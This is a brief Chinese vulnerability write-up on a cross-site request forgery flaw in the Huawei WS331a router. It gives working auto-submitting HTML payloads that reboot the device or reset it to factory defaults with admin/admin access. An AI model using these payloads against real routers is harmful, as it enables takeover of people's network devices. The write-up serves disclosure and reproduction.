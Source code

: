 ## 一、漏洞简介

HuaweiWS331a是中国华为（Huawei）公司的一款迷你无线路由器。使用WS331a-10V100R001C01B112之前版本软件的HuaweiWS331a路由器的管理界面存在跨站请求伪造漏洞。远程攻击者可通过提交特制的请求利用该漏洞恢复出厂设置或重启设备。

## 二、漏洞影响

WS331a-10 V100R001C02B017SP01及之前版本

## 三、复现过程

### POC实现代码如下：

> 当管理员登陆后，打开如下poc页面，WS331a设备将重启。

```
<form action="http://192.168.3.1/api/service/reboot.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script>
```

> 当管理员登陆后，打开如下poc页面，WS331a设备将恢复初始化配置。设备自动重启后不需要密码即可连接热点，并使用amdin/admin对设备进行管理控制。

```
<form action="http://192.168.3.1/api/service/restoredefcfg.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script>
```